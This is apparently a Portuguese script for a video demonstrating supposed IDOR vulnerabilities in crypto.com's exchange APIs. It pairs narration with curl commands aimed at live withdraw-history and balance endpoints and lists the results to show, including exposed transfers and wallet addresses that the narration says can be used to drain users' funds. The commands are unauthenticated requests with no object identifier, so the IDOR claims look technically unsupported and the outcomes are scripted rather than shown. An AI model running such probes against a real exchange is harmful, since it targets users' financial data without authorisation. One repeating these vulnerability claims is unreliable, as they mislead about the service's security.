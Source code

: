 ### **Mostrar Resultado:**
- Status 200 OK
- Dados de transferências expostos
- Valores financeiros visíveis

## 🎬 Parte 3: Vulnerabilidade 2 - Withdraw History API (1 minuto)

### **Fala:**
```
"Agora vou demonstrar a segunda vulnerabilidade: IDOR na API
de histórico de saques, que expõe endereços de carteira."
```

### **Ações na Tela:**
```bash
# Executar comando
curl -s "https://crypto.com/exchange/api/v1/withdraw/history" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json"
```

### **Fala:**
```
"Este endpoint expõe dados de saques de $100,000 por transação,
incluindo endereços de carteira que podem ser usados para
drenagem de fundos dos usuários."
```

### **Mostrar Resultado:**
- Status 200 OK
- Dados de saques expostos
- Endereços de carteira visíveis

## 🎬 Parte 4: Vulnerabilidade 3 - Balance API (1 minuto)

### **Fala:**
```
"A terceira vulnerabilidade é crítica: IDOR na API de saldos,
que expõe informações financeiras de todos os usuários."
```

### **Ações na Tela:**
```bash
# Executar comando
curl -s "https://crypto.com/exchange/api/v1/balance" \
  -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)" \
  -H "Accept: application/json"
```
